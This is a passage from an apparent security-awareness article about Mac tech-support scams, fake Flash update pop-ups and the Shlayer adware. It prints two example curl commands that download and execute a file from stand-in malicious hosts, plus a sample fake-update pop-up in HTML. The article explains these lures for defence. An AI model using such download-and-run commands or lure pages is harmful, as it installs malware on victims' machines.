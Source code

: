 Users lured into calling the provided support number could be further manipulated into installing malicious software, thereby compromising their Macs.

**Consequences of Falling Prey**

Once duped, users might find themselves coerced into downloading and executing malicious software. A common aftermath involves remote access tools (RATs) being installed, granting attackers unauthorized access to the victim’s system. Here’s an example of a malicious command that could be executed:

# Example of a malicious command for installing a RAT

curl -O http://malicious-domain.com/malicious-file && chmod +x malicious-file && ./malicious-file

**Fortifying Against Fake Tech and Support Schemes**

Awareness is the cornerstone of defense against fake tech and support schemes. Recognizing the hallmarks of such scams, using trusted security software, and maintaining a healthy skepticism towards unsolicited alerts can significantly mitigate the risks posed by these nefarious tactics.

This exploration sheds light on the intricate web spun by malicious actors aiming to exploit the user’s trust and lack of technical acumen. As the narrative unfolds, it accentuates the imperative for vigilance and education in navigating the digital realm securely, thus safeguarding one’s Mac system from the clutches of fake tech and support schemes.

**Fake Updates**

Fake update alerts often masquerade as legitimate notifications from reputable software vendors, thus exploiting the user’s trust. A common guise is the outdated Adobe Flash Player alert. Here’s a simplified representation of such a malicious pop-up:

```
<!-- Fake Adobe Flash Player update pop-up -->

<div class="update-alert">

    Your Adobe Flash Player is outdated! Click here to update now.

</div>
```

Upon clicking, users are led to a malicious webpage disguised as a legitimate download page, offering a fake update that is, in reality, malware.

**The Malicious Payload**

The malevolent payload delivered via fake updates can vary, but adware and potentially unwanted programs (PUPs) are common. Here’s an example of a command that could be used to download and execute the malicious update:

# Example command to download and execute malicious update

curl -O http://malicious-site.com/fake-update && chmod +x fake-update && ./fake-update

**Case Study: Shlayer Malware**

The Shlayer malware provides a quintessential example of fake updates preying on Mac users. Disguised as a Flash Player update, Shlayer unleashes a barrage of adware onto the victim’s system once executed. This malware showcases the effectiveness of fake updates in duping users into self-inflicted compromise.
